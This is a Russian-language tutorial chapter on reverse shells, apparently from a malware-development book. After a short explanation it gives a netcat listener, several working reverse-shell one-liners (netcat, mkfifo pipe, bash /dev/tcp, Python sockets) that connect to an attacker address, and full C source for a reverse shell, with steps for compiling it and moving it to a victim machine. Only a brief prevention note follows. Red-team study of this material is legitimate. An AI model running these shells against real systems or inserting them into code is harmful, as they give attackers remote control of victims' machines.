



\newpage
\subsection{3. реверс шелл (обратная оболочка)}

﷽

{height=400px}    

Прежде всего, мы рассмотрим такое понятие, как обратная оболочка (reverse shell), так как это очень важный аспект в разработке вредоносного ПО.

### что такое реверс шелл (обратная оболочка)?

Обратная оболочка (reverse shell), также называемая connect-back shell, - это удаленная оболочка, создаваемая с целевого устройства путем установления соединения с машиной атакующего и запуска целевой оболочки на машине атакующего. Обычно это используется в процессе эксплуатации уязвимости для получения контроля над удаленной машиной.     



Обратная оболочка может использовать распространенные исходящие порты, такие как `80, 443, 8080` и другие.    

Обратная оболочка обычно применяется, когда целевая машина жертвы блокирует входящее соединение по определенному порту брандмауэром. Чтобы обойти это ограничение, специалисты Red Team и пентестеры используют обратные оболочки.     

Однако здесь есть один нюанс. Это подвергает сервер управления атакующего риску обнаружения, а сетевые службы мониторинга безопасности могут зафиксировать следы атаки.    

Существует три этапа для получения обратной оболочки.    
Сначала атакующий эксплуатирует уязвимость в целевой системе или сети, которая позволяет выполнить код.    
Затем атакующий настраивает прослушиватель (listener) на своей машине.     
Далее атакующий внедряет обратную оболочку в уязвимую систему для эксплуатации уязвимости.    

Есть еще один нюанс. В реальных кибератаках обратную оболочку можно также получить через социальную инженерию. Например, вредоносное ПО, установленное на локальную рабочую станцию с помощью фишингового письма или вредоносного веб-сайта, может инициировать исходящее соединение с командным сервером и предоставить хакерам возможность обратного соединения.     

{width="80%"}

Цель этого поста - не эксплуатация уязвимости в целевом хосте или сети, но для понимания достаточно знать что основная идея там заключается в поиске уязвимости, которая может быть использована для выполнения кода.   

В зависимости от установленной на жертве системы и запущенных там сервисов, обратная оболочка может быть разной, например, `php, python, jsp` и т. д.    

***

### listener

Для простоты в этом примере жертва разрешает исходящие соединения на любом порту (по умолчанию правило брандмауэра `iptables`). В нашем случае мы используем `4444` в качестве порта прослушивания. Вы можете изменить его на любой другой порт. Прослушиватель может быть любой программой/утилитой, способной открывать TCP/UDP соединения или сокеты. В большинстве случаев я предпочитаю использовать утилиту `nc` или `netcat`.   

```bash
nc -lvp 4444
```

В этом случае параметры `-l` - слушать, `-v` - подробный вывод и `-p` - порт `4444` на всех интерфейсах. Вы также можете добавить `-n` для работы только с IP-адресами без использования DNS.    

    

***

### запуск обратной оболочки (примеры)

Для простоты в наших примерах целью является машина с Linux.   
**1. netcat**   
Запуск:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - прослушиваемый порт.   

{width="80%"}

**2. netcat без -e**    

В новых версиях Linux по умолчанию используется традиционный netcat с отключенной опцией `GAPING_SECURITY_HOLE`, что означает отсутствие опции `-e`.

В этом случае на машине жертвы выполните:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

**3. bash**   

Не работает на старых дистрибутивах на базе Debian.   

Запуск:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

**4. python**

Чтобы создать полуинтерактивную оболочку с помощью Python, выполните:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

Больше примеров: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)    

***

### создание обратной оболочки на C

Моя любимая часть. Так как я пришел в кибербезопасность с бэкграундом разработчика ПО, мне нравится "изобретать велосипед", это помогает лучше понять многие концепции и иногда заглянуть "под капот" многих процессов.    

Как я писал выше, мы будем писать обратную оболочку которую запустим на Linux (целевой хост)   

Создайте файл `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "10.9.1.6";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

Скомпилируем:

```bash
gcc -o shell shell.c -w
```

{width="80%"}

*если вы компилируете для 32-bit linux запустите:* ```gcc -o shell -m32 shell.c -w```

Давайте перейдем к передаче файла на машину жертвы. Передача файла считается одним из самых важных шагов, включенных в постэксплуатацию (как я уже писал ранее, мы не рассматриваем шаг эксплуатации).    

Мы воспользуемся инструментом, который известен как "швейцарский нож хакера", netcat.    

на машине жертвы запустите:    
```bash
nc -lvp 4444 > shell
```

а на машине атакующего:    
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

{width="80%"}

проверка:
```bash
./shell
```

{width="80%"}

[исходный код на Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### предотвращение

К сожалению, нет способа полностью заблокировать обратные оболочки. Если вы намеренно не используете обратные оболочки для удаленного администрирования, любые обратные соединения оболочки, скорее всего, будут считаться вредоносными. Чтобы ограничить эксплуатацию, вы можете заблокировать исходящие соединения, чтобы разрешить только определенные удаленные IP-адреса и порты для требуемых служб. Этого можно добиться путем помещения сервера в песочницу или запуска сервера в минимальном контейнере.    